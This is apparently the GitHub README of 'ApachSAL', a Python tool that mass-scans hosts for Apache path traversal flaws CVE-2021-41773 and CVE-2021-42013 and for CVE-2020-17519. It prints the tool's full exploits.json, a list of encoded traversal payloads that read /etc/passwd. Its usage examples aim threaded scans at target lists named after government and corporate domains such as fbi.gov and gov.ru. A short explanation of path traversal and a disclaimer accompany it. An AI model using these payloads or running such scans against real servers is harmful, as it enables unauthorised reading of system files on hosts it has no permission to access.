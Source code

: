 <p align="center">
<a href="https://github.com/imhunterand/ApachSAL/">
  <img src="assets/prints/banner.png" width="700" alt="Banner Apache Path Traversal" />
</a>
</p>
<h1 align="center">
  Apache Path Traversal
</h1>
  
<img alt="GPL License" src="https://img.shields.io/github/license/imhunterand/ApachSAL?color=blue">
  
<img alt="GitHub code size in bytes" src="https://img.shields.io/github/languages/code-size/imhunterand/ApachSAL">

<img alt="Python 3.8" src="https://img.shields.io/badge/python-3.8-yellow.svg">
<img alt="Supported_OS Linux orange" src="https://img.shields.io/badge/Supported_OS-Linux-orange.svg">
<img alt="Supported OS Mac" src="https://img.shields.io/badge/Supported_OS-Mac-orange.svg">
</p> 

### Path traversal (software bug)
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

## Disclaimer
```
This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (Imhunterand) is not liable for any 
damages caused by direct or indirect use of the information or functionality provided by these 
programs. The author or any Internet provider bears NO responsibility for content or misuse 
of these programs or any derivatives thereof. By using these programs you accept the fact 
that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these 
programs is not Imhunterand responsibility.
```


### This script checks for vulnerabilities
- [CVE-2021-41773  ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)


## Commands
```bash
python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug
```
## Screenshots
![Screenshot](/assets/prints/print01.png)
![Screenshot](/assets/prints/print02.png)


## Flow to generate targets
![Screenshot](/assets/prints/print03.jpg)

## Help
```bash
python main.py --help
```

```properties

                                   .,,
                                  (=\/\
                                   \=\/\
                                    \=\/\
                                     `=\/
                                        \
            TRAVERSAL [ APACHE ]
 ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██   ██████  ▄▄▄       ██▓
▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▒██    ▒ ▒████▄    ▓██▒
▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░░ ▓██▄   ▒██  ▀█▄  ▒██░
░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██   ▒   ██▒░██▄▄▄▄██ ▒██░
 ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓▒██████▒▒ ▓█   ▓██▒░██████▒
 ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒▒ ▒▓▒ ▒ ░ ▒▒   ▓▒█░░ ▒░▓  ░
  ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░░ ░▒  ░ ░  ▒   ▒▒ ░░ ░ ▒  ░
  ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░░  ░  ░    ░   ▒     ░ ░
      ░  ░               ░  ░░ ░       ░  ░  ░      ░        ░  ░    ░  ░
                             ░


                      By: imhunterand /labsbots.com/
                      https://twitter.com/imhunterand
                      https://github.com/imhunterand/                                                                     
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>]
            [--thread <20>] [--ssl] [--timeout <5>] [--debug]

[!] Check: CVE-2021-41773, CVE-2021-42013, CVE-2020-17519
[!] File exploits: /assets/exploits.json
[!] Output: output/vuln.txt

python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug

optional arguments:
  -h, --help            show this help message and exit
  --file <ips.txt>      Input your target host lists
  --range <ip-start>,<ip-end>
                        Set range IP Eg.: 192.168.15.1,192.168.15.100
  --thread <20>, -t <20>
                        Eg. 20
  --ssl                 Enable request with SSL
  --timeout <5>         Set connection timeout
  --debug, -d           Enable debug mode

```

## Tree
```properties
.
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       └── print02.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_mrclw.py
│   ├── color_mrclw.py
│   ├── debug_mrclw.py
│   ├── file_mrclw.py
│   ├── __init__.py
│   ├── request_mrclw.py
│   ├── shodan_mrclw.py
│   └── thread_mrclw.py
├── output
└── README.md
```

## File exploit
> assets/exploits.json 
```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2021-42013-1": "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-3": "/cgi-bin/.%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-4":"/cgi-bin/%25%25%25%2e/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2020-17519-0":"/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd",
    "CVE-2020-17519-1":"/cgi-bin/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```



### Ref.

- https://owasp.org/www-community/attacks/Path_Traversal
- https://appcheck-ng.com/apache-path-traversal-vulnerability-cve-2021-41773/
- https://www.exploit-db.com/exploits/50383
- https://www.exploit-db.com/exploits/50406
- https://www.exploit-db.com/exploits/49398
- https://owasp.org/www-community/attacks/Path_Traversal
